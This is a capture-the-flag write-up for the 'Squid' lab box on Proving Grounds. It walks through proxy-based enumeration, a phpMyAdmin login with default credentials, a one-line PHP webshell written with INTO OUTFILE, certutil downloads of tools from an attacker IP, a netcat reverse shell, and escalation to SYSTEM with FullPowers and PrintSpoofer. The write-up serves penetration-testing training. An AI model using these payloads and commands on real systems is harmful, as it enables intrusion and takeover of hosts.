# Squid -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Squid (Proving Grounds)
**Author:** dsec
**Date:** 2025-08-23

---

## TL;DR

### Squid proxy exposed internal services. MySQL with default creds led to webshell via INTO OUTFILE. Privesc with FullPowers + PrintSpoofer.
---
## Target info

- Host: `192.168.195.189`
- Services discovered: `3128/tcp (squid proxy)`
---
## Enumeration

```bash
sudo nmap -Pn -n 192.168.195.189 -sCV -p- --open -vvv
```





Used spose to enumerate services behind the Squid proxy:

```bash
python3 spose.py --proxy http://192.168.195.189:3128 --target 192.168.195.189
```



---
## Initial access

Set up Chrome Proxy Switcher to route through the Squid proxy:









Logged into phpMyAdmin with default creds `root:''` (null password).

Went to the query tab and wrote a webshell via MySQL:

```sql
select "<?php system($_GET['cmd']); ?>" INTO OUTFILE 'C:/wamp/www/shell.php';
```



---
## Shell

Uploaded nc64.exe via the webshell using certutil (URL-encoded):

```
certutil -split -urlcache -f http://192.168.45.208/nc64.exe C:\wamp\www\nc64.exe
```

```
http://192.168.195.189:8080/shell.php?cmd=certutil%20-split%20-urlcache%20-f%20http://192.168.45.208/nc64.exe%20C:\wamp\www\nc64.exe
```





Triggered reverse shell (URL-encoded):

```
C:\wamp\www\nc64.exe 192.168.45.208 80 -e cmd.exe
```

```
http://192.168.195.189:8080/shell.php?cmd=C:%5C%5Cwamp%5C%5Cwww%5C%5Cnc64.exe%20192.168.45.208%2080%20-e%20cmd.exe
```



---
## Privilege escalation



- nothing useful initially



- found hash: `02upvemrsyfklcrz`



**Looked into [EDB-40967](https://www.exploit-db.com/exploits/40967) but didn't have M permissions on files.**



Used FullPowers to recover impersonation privileges:

```bash
certutil -split -urlcache -f http://192.168.45.208/FullPowers.exe C:\wamp\www\FullPowers.exe
```

```
.\FullPowers.exe
```



Then PrintSpoofer for SYSTEM:

```bash
certutil -split -urlcache -f http://192.168.45.208/printspoofer64.exe C:\wamp\www\printspoofer64.exe
```

```
.\printspoofer64.exe -i -c powershell
```



---
## Lessons & takeaways

- Squid proxies can expose internal-only services -- always enumerate behind them with spose
- phpMyAdmin with default creds + INTO OUTFILE = instant webshell
- FullPowers restores missing token privileges on service accounts, enabling PrintSpoofer
---
